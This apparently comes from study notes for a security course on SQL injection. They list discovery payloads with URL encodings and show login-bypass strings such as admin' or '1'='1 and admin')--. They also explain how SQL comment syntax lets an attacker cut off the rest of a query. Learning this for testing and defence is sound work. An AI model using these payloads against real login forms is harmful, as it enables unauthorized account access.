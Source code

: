 # Subverting Query Logic

## SQLI Discovery

Payloads to try to test for SQLI, we should check for errors or if the page changes it behavior:

| Payload | URL Encoded |
| --- | --- |
| `'` | `%27` |
| `"` |`%22` |
| `#` | `%23` |
| `;` | `%3B` |
| `)` | `%29` |

## Authentication Bypass

Example query when entering credentials:
```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

### OR Injection

OR will be evaluated after AND so one true statement with OR will result in a true query.

An example of bypassing the above query, making sure it has even number of quotes:
```sql
admin' or '1'='1
```

![[or_inject_diagram.png]]

It works because the user admin exists, if we will try with a username that doesn't exist it wouldn't work, but we can inject something like `something' or '1'='1` to the password field.

# Using Comments

## Comments

There are 2 types of line comments, `--` and `#`, as well as in-line `/**/` comment which isn't typically used with SQLI.

Examples of using a comment:
```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

mysql> SELECT * FROM logins WHERE username = 'admin'; # When inputting # in URL within a browser you need to use the encoded version which is %23 so it wouldn't be considered a tag
```

You must put a space after `--` which is URL encoded as `+` we can add `-` at the end (`-- -`) to show the use of a space character.

The query can also look something like that with parenthesis:
![[paranthesis_fail.png]]

We can use `admin')--` to bypass this.